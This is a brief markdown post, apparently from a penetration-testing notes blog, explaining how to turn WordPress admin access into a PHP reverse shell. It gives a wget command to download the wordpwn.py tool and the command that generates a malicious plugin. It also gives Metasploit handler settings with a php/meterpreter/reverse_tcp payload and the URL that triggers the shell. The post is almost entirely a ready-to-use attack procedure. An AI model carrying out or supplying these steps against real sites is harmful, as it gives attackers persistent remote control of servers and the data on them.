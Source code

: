 ```yaml
---
layout: post
title: "Use Malicious Wordpress Plugin as PHP Reverse Shell with Metasploit"
---
```


> **Requirements**: Admin access to Wordpress.

1. Download **Wordpwn**:
   ```bash
   wget https://raw.githubusercontent.com/wetw0rk/malicious-wordpress-plugin/master/wordpwn.py
   ```
2. Generate malicous Wordpress plugin:
   ```bash
   python wordpwn.py <$LOCAL_IP> <$LOCAL_PORT> Y
   ```
3. Install the previously generated `malicious.zip` plugin and activate it in Wordpress. 
4. Run `msfconsole` to start the listener:
   ```
   use exploit/multi/handler 
   set LHOST <$LOCAL_IP>
   set LPORT <$LOCAL_PORT>
   set PAYLOAD php/meterpreter/reverse_tcp 
   exploit
   ```
5. Query `https://<$WORDPRESS_URL>/wp-content/plugins/malicious/wetw0rk_maybe.php` in a browser. This will connect back to the local Metasploit listener and open up a shell on the server.

---
